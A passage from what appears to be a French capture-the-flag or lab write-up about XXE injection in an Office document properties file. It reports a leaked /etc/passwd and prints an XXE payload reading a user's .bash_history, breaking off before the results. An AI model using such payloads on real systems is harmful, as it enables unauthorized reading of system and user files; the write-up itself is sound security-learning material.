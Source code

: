 ![Desktop View](/assets/img/20250427/mission-04-passwd-leak.png){: width="572" height="400" }
_Injection XXE mène à la fuite de /etc/passwd_

Nous avons bien réussi à fuiter le contenu de **/etc/passwd** dans lequel nous pouvons distinguer trois utilisateurs potentiellement intéressants : 

>**document-user** → **/home/document-user** avec **/bin/sh**

>**executor** → **/home/executor** avec **/bin/bash**

>**administrator** → **/home/administrator** avec **/bin/bash**

En répétant l'opération avec :
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///home/document-user/.bash_history">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties">
  <VictimID>&xxe;</VictimID>
</Properties>
```
On parvient à obtenir l'histrorique des commandes de document-user : 